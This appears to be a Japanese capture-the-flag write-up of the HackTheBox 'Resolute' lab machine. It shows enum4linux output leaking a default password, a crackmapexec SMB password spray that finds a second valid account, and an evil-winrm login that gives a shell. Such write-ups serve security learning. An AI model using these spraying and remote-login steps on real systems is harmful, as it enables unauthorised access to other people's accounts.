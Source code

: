 # Recon

`enum4linux`の結果をよくみると、ユーザmarkoのパスワードを発見：

```
┌──(shoebill㉿shoebill)-[~]
└─$  enum4linux -a -M -l -d 10.10.10.169
...
        User Name   :   marko
        Full Name   :   Marko Novak
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :   Account created. Password set to Welcome123!
        Workstations:
        Comment     :
...
```

# initial shell

残念ながらmarkoのシェルがとれなかったので、パスワードの使い回しを疑って次のように`kerbrute`を実行：

```
┌──(shoebill㉿shoebill)-[~/Resolute_10.10.10.169]
└─$ crackmapexec smb 10.10.10.169 -u users.txt -d megabank.local -p 'Welcome123!'
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
...
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\per:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\claude:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\melanie:Welcome123!
```

ユーザmelanieのパスワードもWelcome123!と判明。

次のようにしてmelanieのシェルをゲット：

```
┌──(shoebill㉿shoebill)-[~/Resolute_10.10.10.169]
└─$ evil-winrm -i 10.10.10.169 -u melanie -p 'Welcome123!'
...
*Evil-WinRM* PS C:\Users\melanie\Documents> whoami
megabank\melanie
```


